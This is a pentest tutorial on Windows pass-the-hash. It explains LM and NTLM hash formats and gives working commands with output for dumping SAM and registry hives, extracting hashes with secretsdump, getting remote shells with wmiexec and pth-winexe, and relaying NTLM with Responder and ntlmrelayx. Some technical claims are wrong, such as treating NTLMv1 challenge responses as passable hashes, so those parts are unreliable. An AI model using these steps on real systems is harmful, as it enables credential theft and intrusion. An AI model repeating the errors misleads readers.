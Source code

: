 # Pass-The-Hash Windows

In most case of leathral movment, we usually don't have password. 
This PTH technique, allows us to authenticate to a remote target by using a valid username and NTLM/LM hash rather than username and password. First let's understand the diffrences between LM,NTLM and NTLMv1/v2 hashes:

## Lan Manager (LM) Hashes

The oldest password storage used by Windows. In Windows 2000, XP and Server 2003 passwords shorter than 15 characters were stored in the Lan Manager (LM) hash format as following:

```
user:group:id:lmhash:nthash::
```

For example:

```
 Admin:502:aad3c435b514a4eeaad3b935b51304fe:c46b9e588fa0d112de6f59fd6d58eae3:::
```

This hash divided by semicolon, means:

- Admin is the user name

- 502 is the relative identifier (500 is an administrator, 502 here is a kerberos account. (adsecurity.org/?p=483)

- aad3c435b514a4eeaad3b935b51304f is the LM hash

- c46b9e588fa0d112de6f59fd6d58eae3 is the NT hash 


Our final NTLM hash for brute force attack will be *aad3c435b514a4eeaad3b935b51304fe*
For online cracking use: https://hashkiller.co.uk/Cracker/NTLM

## NT (New Technology) Hashes

In newer Windows versions (such as Vista, Server 2008+, Win7 etc.) this is the way passwords are stored, also those hashes are stored on domain controllers in the NTDS file and commonly use for pass-the-hash. This commonly use in term of NTLM hash (or just NTLM).

NTLM hash with only the NT component format as following:

```
user:group:id:emptylmhash:nthash::
```

For example:

```
Administrator:500:NO PASSWORD*********************:EC054D40119570A46634350291AF0F72:::
ITguy:1007:AAD3B435B51404EEAAD3B435B51404EE:38103E9BF8D09200D725F1541ECC5BCA:::
```

In both cases, it is the same format. However, the string "NO PASSWORD" or "AAD3B435B51404EEAAD3B435B51404EE" display in place of no password depend on the tool being used to dump those hashes as normally LM hash is empty and not stored. NTLM hash can be cracked to gain password, or used to pass-the-hash.

For online cracking use: https://hashkiller.co.uk/Cracker/NTLM

## NTLMv1/v2

Those NTLMv1/v2 are challenge response protocols used for authentication in Windows environments, much harder to bruteforce and usually used in SMB relay attack using Responder.py or Impacket Python tools to obtains this hash from a client in the network.

NTLMv1-SSP hash format as following:

```
username::hostname:*response*:*response*:challenge
```

For example:

```
john::MWLAB:338d08f8e26de93300000000000000000000000000000000:9526fb8c23a90751cdd619b6cea564742e1e4bf33006ba41:cb8086049ec4736c
```

We will use the response characters from the hash string as our final hash for pass-the-hash:

```
38d08f8e26de93300000000000000000000000000000000:9526fb8c23a90751cdd619b6cea564742e1e4bf33006ba41
```

Then, use this hash on one of pth (pass-the-hash) tools for example wmiexec from Impacket:

```
root@kali:~# wmiexec.py  -hashes 38d08f8e26de93300000000000000000000000000000000:9526fb8c23a90751cdd619b6cea564742e1e4bf33006ba41 administrator@192.168.1.12
Impacket v0.9.15 - Copyright 2002-2016 Core Security Technologies

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>
```

## Dump Hashes

### Using FgDump.exe tool

Dump hashes from running system using fgdump.exe from Kali as following:

```
root@kali:~# cd /usr/share/windows-binaries/fgdump
root@kali:/usr/share/windows-binaries/fgdump# python -m SimpleHTTPServer 80
```

### From Compromised system

If we already compromised system, then we able extract the values of SAM files from you system and then dump thier hashes in your kali machine:

On victim machine (has to run under SYSTEM-level privileges):

```
C:\> reg.exe save hklm\sam c:\temp\sam.save
C:\> reg.exe save hklm\security c:\temp\security.save
C:\> reg.exe save hklm\system c:\temp\system.save

```

Then use those copy of the SYSTEM, SECURITY and SAM hives back to your kali machien and use secretsdump.py to dump hashes:


```
root@kali:~# secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
Impacket v0.9.11-dev - Copyright 2002-2013 Core Security Technologies

[*] Target system bootKey: 0x602e8c2947d56a95bf9cfad9e0bbbace
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
renadm:500:aad3b435b51404eeaad3b435b51404ee:3e24dcead23468ce597d6883c576f657:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
support:1000:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
[*] Dumping cached domain logon information (uid:encryptedHash:longDomain:domain)
hdes:6ec74661650377df488415415bf10321:securus.corp.com:SECURUS:::
Administrator:c4a850e0fee5af324a57fd2eeb8dbd24:SECURUS.CORP.COM:SECURUS:::
[*] Dumping LSA Secrets
[*] $MACHINE.ACC
$MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:2fb3672702973ac1b9ade0acbdab432f
...

```

## Practical Usage PTH

### Pth-winexe

This help us to get an interactive command line with the remote victim:

USAGE:

```
pth-winexe -U DOMAIN/user%hash //$ip cmd
```

Example:
```
root@kali:~# pth-winexe -U WORKGROUP/Administrator%aad3b435b51404eeaad3b435b51404ee:C0F2E311D3F450A7FF2571BB59FBEDE5 //192.168.1.12 cmd.exe
E_md4hash wrapper called.
HASH PASS: Substituting user supplied NTLM HASH...
Microsoft Windows \[Version 6.3.9600\]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
Server\Administrator
```

### SMB Relaying attack

Fire up the Responder.py tool:

```
root@kali:~# python Responder.py -I eth1 -r -d -w
```

In another window running the following command using Impacket Python:

```
root@kali:~# ntlmrelayx.py -tf targets.txt -c [POWERSHELL REVERSE SHELL]
```

Upon successful relay it will dump the SAM database of the target and executing a command in background using the NTLM hash.

